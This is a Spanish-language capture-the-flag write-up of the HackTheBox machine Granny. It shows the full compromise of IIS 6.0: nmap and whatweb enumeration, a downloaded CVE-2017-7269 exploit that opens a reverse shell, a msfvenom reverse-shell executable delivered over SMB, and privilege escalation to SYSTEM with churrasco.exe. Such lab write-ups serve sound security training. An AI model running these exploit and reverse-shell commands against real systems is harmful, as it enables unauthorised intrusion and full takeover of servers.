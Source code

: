 ```yaml
---
title: HackTheBox - Granny
categories: [Windows]
tags: [HackTheBox]
image: granny.png 
img_path: /assets/HTB/Granny/
---
```


En este post voy a explicar como resolver la máquina Granny de [Hack The Box](https://app.hackthebox.com/machines/14), en la cual vamos a estar explotando una vulnerabilidad de un ```IIS 6.0``` y para la escalada vamos a hacer uso del exploit ```churrasco.exe```

## Escaneo de puertos

```
# nmap -p- -sS --min-rate 5000 -sCV -oN nmap -n -Pn 10.10.10.15
Nmap scan report for 10.10.10.15
Host is up (0.25s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
| http-methods:
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
| http-webdav-scan:
|   WebDAV type: Unknown
|   Server Type: Microsoft-IIS/6.0
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Date: Mon, 12 Dec 2022 00:13:17 GMT
|_http-title: Under Construction
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Como vemos, la página tiene el puertos 80 (HTTP) abierto.

# Enumeración
Al ingresar a la página, vemos esto.

<img src="granny-pagina.png">

Si usamos la herramienta whatweb para recopilar información del servidor web, vemos que se está utilizando ```Microsoft-IIS[6.0]```.

```
$ whatweb http://10.10.10.15/

HTTPServer[Microsoft-IIS/6.0], IP[10.10.10.15], Microsoft-IIS[6.0][Under Construction], MicrosoftOfficeWebServer[5.0_Pub], UncommonHeaders[microsoftofficewebserver], X-Powered-By[ASP.NET]
```

Esta versión del ```IIS``` es vulnerable a ```ejecución de código arbitrario```, para explotarlo vamos a hacer uso de este [exploit](https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell) creado por ```g0rx```, el cual nos mandara directamente una ```reverse shell```.

# Reverse Shell

```
$ curl -s  https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell -o IIS-exploit.py

$ python2 IIS-exploit.py 10.10.10.15 80 [Reverse IP] [Reverse Port]

```
```
$ rlwrap nc -lvnp 6969
listening on [any] 6969 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.15] 1031
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv> whoami

nt authority\network service
```
# Enumeración del sistema
Al hacer un ```whoami /priv```, veremos que tenemos el privilegio ```SeImpersonatePrivilege```, el cual podemos abusar haciendo uso del exploit ```churrasco.exe```, una alternativa al ```JuicyPotato.exe```, usaremos esa alternativa, ya que en algunos escenarios, el exploit JuicyPotato no es compatible con los sistemas más antiguos.

Lo primero que vamos a hacer es descargarnos el exploit ```churrasco.exe``` y crearnos un archivo malicioso haciendo uso de msfvenom el cual se encargue de mandarnos una reverse shell.

```
$ wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 EXITFUNC=thread -f exe -a x86 --platform windows -o shell.exe

No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

Una vez creados, los transferiremos a la máquina víctima, haciendo uso de la herramienta ```impacket-smbserver```.

```
$ sudo impacket-smbserver smbFolder $(pwd) -smb2support

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Una vez este inicializado el servidor SMB en la máquina local, descargaremos los archivo de la siguiente forma.

```
c:\windows\system32\inetsrv>cd C:\Windows\Temp
C:\WINDOWS\Temp>copy \\10.10.14.2\smbFolder\churrasco.exe churrasco.exe
        1 file(s) copied.

C:\WINDOWS\Temp>copy \\10.10.14.2\smbFolder\shell.exe shell.exe
        1 file(s) copied.

C:\WINDOWS\Temp>dir

 Volume in drive C has no label.
 Volume Serial Number is 424C-F32D

 Directory of C:\WINDOWS\Temp

12/12/2022  03:50 AM    <DIR>          .
12/12/2022  03:50 AM    <DIR>          ..
12/12/2022  03:38 AM            31,232 churrasco.exe
04/12/2017  09:14 PM    <DIR>          rad61C21.tmp
04/12/2017  09:14 PM    <DIR>          radDDF39.tmp
12/12/2022  03:44 AM            73,802 shell.exe
02/18/2007  02:00 PM            22,752 UPD55.tmp
12/24/2017  07:24 PM    <DIR>          vmware-SYSTEM
12/12/2022  02:07 AM            25,552 vmware-vmsvc.log
09/16/2021  01:54 PM             4,679 vmware-vmusr.log
12/12/2022  02:08 AM               728 vmware-vmvss.log
               6 File(s)        158,745 bytes
               5 Dir(s)   1,323,311,104 bytes free

C:\WINDOWS\Temp>
```
# Escalada de privilegios

Ahora nos pondremos en escucha por el puerto que le especificamos en el archivo malicioso, y lo ejecutaremos haciendo uso del exploit ```churrasco.exe``` para que nos llegue una reverse shell como ```nt authority\system```.

```
C:\WINDOWS\Temp>churrasco.exe
/churrasco/-->Usage: Churrasco.exe [-d] "command to run"

C:\WINDOWS\Temp>churrasco.exe -d ".\shell.exe"
/churrasco/-->Current User: NETWORK SERVICE
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 672
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x730
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x728
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```

```
$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.15] 1036
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
nt authority\system
```
